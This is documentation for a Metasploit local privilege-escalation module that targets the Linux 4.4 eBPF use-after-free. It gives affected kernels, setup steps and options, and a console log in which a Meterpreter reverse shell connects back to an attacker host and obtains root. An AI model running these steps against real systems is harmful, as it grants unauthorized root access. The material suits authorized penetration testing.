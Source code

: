 ## Notes

  Linux kernel 4.4 < 4.5.5 extended Berkeley Packet Filter (eBPF)
  does not properly reference count file descriptors, resulting
  in a use-after-free, which can be abused to escalate privileges.

  The target system must be compiled with `CONFIG_BPF_SYSCALL`
  and must not have `kernel.unprivileged_bpf_disabled` set to 1.

  Note, this module will overwrite the first few lines
  of `/etc/crontab` with a new cron job. The job will
  need to be manually removed.


## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu 16.04 (x64) kernel 4.4.0-21-generic (default kernel)

  This module was not tested against, but may work against:

  * Fedora 24 < [kernel-4.5.4-300.fc24](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 23 < [kernel-4.5.5-201.fc23](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 22 < [kernel-4.4.10-200.fc22](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Debian >= 4.4~rc4-1~exp1, < Fixed in version [4.5.3-1](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=82
  * Ubuntu 14.04.1 <= [4.4.0-22.39](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1578705/comments/3)


## Creating A Testing Environment

There are a few requirements for this module to work:

  1. `CONFIG_BPF_SYSCALL=y` must be set in the kernel (default on Ubuntu 16.04)
  2. `kernel.unprivileged_bpf_disabled` can't be set to `1` (default on Ubuntu 16.04)
  3. fuse needs to be installed (non-default on Ubuntu 16.04)
  
  Using Ubuntu 16.04, simply `sudo apt-get install fuse` and you're all set!

  The `libfuse-dev` package must be installed to test live-compiling on the target:

  `apt-get install libfuse-dev=2.9.4-1ubuntu3.1`


## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_priv_esc
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35 seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to `120` (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`


## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-21-generic)

In this scenario, gcc and libfuse-dev are both installed so we can live compile on the system.

  ```
  msf5 > use exploit/linux/local/bpf_priv_esc 
  msf5 exploit(linux/local/bpf_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/bpf_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/bpf_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/bpf_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 4.4.0-21-generic appears to be vulnerable
  [+] fuse package is installed
  [+] /tmp/fuse_mount doesn't exist
  [+] Kernel config has CONFIG_BPF_SYSCALL enabled
  [+] Unprivileged BPF loading is permitted
  [+] libfuse-dev is installed
  [+] gcc is installed
  [+] pkg-config is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/hello.c' (2682 bytes) ...
  [*] Writing '/tmp/doubleput.c' (5168 bytes) ...
  [*] Writing '/tmp/suidhelper.c' (333 bytes) ...
  [*] Uploading payload...
  [*] Writing '/tmp/.FVfiRBKRDX7r' (285 bytes) ...
  [*] Launching exploit. This may take up to 120 seconds.
  [+] Success! set-uid root /tmp/suidhelper
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (861348 bytes) to 172.16.191.141
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.141:34804) at 2018-12-15 00:20:04 -0500
  [+] Deleted /tmp/hello.c
  [+] Deleted /tmp/hello
  [+] Deleted /tmp/doubleput.c
  [+] Deleted /tmp/doubleput
  [+] Deleted /tmp/suidhelper.c
  [+] Deleted /tmp/.FVfiRBKRDX7r
  [+] Deleted /tmp/fuse_mount
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.141
  OS           : Ubuntu 16.04 (Linux 4.4.0-21-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

